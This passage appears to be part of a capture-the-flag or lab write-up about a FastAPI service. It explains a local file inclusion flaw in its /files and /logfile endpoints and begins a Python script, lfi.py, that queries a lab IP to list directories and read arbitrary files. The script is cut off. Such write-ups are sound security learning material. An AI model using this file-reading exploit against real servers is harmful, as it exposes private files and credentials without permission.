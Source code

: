     <img src="img/omm_api_fastapi_overview.png" alt="FastAPI-docs" width="500"/>
</p>

After playing around with all the different API endpoint, two are considered important for now, because they have a LFI vulnerability where we can read files and list directories (basically `ls` and `cat`). The two endpoints are `/files` (list files in directory) and `/logfile` (read files). To make it easier to query the server for directory-contents and files I wrote a simple python script `lfi.py`.
```python
import requests
from sys import argv

url = "http://10.128.2.126:8000"

if len(argv) != 3:
    print("Invalid args")
    exit()

cmd = argv[1]
obj = argv[2]

if cmd == "ls":
    r = requests.get(url + "/files" + f"?basePath={obj}")
    try:
```